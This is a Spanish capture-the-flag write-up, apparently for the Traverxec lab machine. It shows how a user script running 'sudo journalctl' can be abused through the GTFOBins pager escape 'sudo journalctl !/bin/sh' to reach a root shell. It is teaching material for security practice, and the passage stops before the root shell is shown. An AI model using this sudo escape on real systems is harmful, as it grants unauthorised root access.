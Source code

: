 # Escalada de Privilegios: david -> root
## Enumeración

Podemos comenzar enumerando la carpeta de inicio del usuario actual:

```shell
david@traverxec:~$ ls -lahR
<...snip...>
david@traverxec:~$ cat bin/server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

Hay un script que ejecuta sudo en el programa journalctl.

## Abusando journalctl

Si buscamos journalctl en gtfobins (lea gtfobins), hay una opción para sudo. Es bastante breve y simplemente dice:

    sudo journalctl !/bin/sh

El journalctl saldrá a stdout si la cantidad de líneas verticales puede caber en la página actual, de lo contrario, entrará en "less" si no puede. Podemos probar esto en nuestro localhost:

```shell
sudo journalctl
```

Como puedes ver ahora estamos en "less":

```bash
sep 09 20:49:55 parrot kernel: MTRR default type: uncachable
sep 09 20:49:55 parrot kernel: MTRR fixed ranges enabled:
sep 09 20:49:55 parrot kernel:   00000-9FFFF write-back
lines 1-39
```

En el comando journalctl podemos ver el parámetro `-n` que toma `5` líneas como argumento, esto significa que solo se enviarán cinco líneas a la salida, por lo que necesitamos reducir la terminal a algo más pequeño que 5 líneas, y seremos enviados a less como el usuario root porque se esta ejecutando con sudo. Probemos esto en nuestro host primero para ver cómo funciona:

```shell
sudo journalctl -n 5
```
